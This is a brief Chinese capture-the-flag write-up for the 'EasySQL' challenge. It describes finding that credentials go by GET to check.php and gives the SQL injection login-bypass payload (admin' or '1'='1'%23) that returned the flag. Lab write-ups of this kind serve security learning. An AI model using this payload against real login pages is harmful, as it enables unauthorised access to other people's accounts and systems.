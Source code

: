 # \[极客大挑战 2019]EasySQL

## \[极客大挑战 2019]EasySQL

## wp

F12发现是向check.php使用GET提交username和password

尝试万能密码，访问`check.php?username=admin' or '1'='1'%23&password=123`，给了flag

![](<../.gitbook/assets/image (6) (1).png>)
